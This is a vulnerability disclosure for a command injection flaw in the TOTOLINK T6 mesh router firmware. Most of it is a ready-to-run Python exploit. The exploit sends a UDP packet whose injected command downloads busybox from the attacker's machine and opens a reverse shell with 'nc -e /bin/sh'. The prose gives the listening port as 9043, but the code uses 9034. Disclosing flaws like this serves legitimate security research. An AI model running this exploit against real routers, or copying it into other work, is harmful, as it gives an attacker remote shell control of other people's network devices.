 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. Attacker can send a malicious UDP packet to trigger this vulnerability.

# Vulnerability details

Device open port `9043` and start listen. When UDP packet come in, the binary compare first 3 char with "orf", "irf",... and use `strcat` to create a string command.

![](1/1.png)

Attacker can inject his own command.

# POC

```python
import sys, socket, http.server, socketserver, threading, time

class MyHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        super().do_GET()

def start_server(PORT = 8000):
    Handler = MyHandler
    httpd = socketserver.TCPServer(("", PORT), Handler)
    
    print("[+] Serving on port %d" % PORT)
    httpd.serve_forever()

def start_http_server():
    server_thread = threading.Thread(target=start_server)
    server_thread.daemon = True
    server_thread.start()

    print("[+] Server is running in the background...")

def exploit(target_ip, my_ip):
    UDP_IP = target_ip
    UDP_PORT = 9034
    CMD = f'''orf;wget http://{my_ip}:8000/busybox -O /tmp/busybox; chmod +x /tmp/busybox; /tmp/busybox nc {my_ip} 1943 -e /bin/sh;'''

    print("[+] UDP target IP:", UDP_IP)
    print("[+] UDP target port:", UDP_PORT)

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(bytes(CMD, "utf-8"), (UDP_IP, UDP_PORT))


if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]

    start_http_server()

    print("[+] You should start nc -lvnp 1943")
    exploit(target_ip, my_ip)

    while True:
        time.sleep(1)
```

[POC Video](https://www.youtube.com/watch?v=uH4-GdT1cqQ)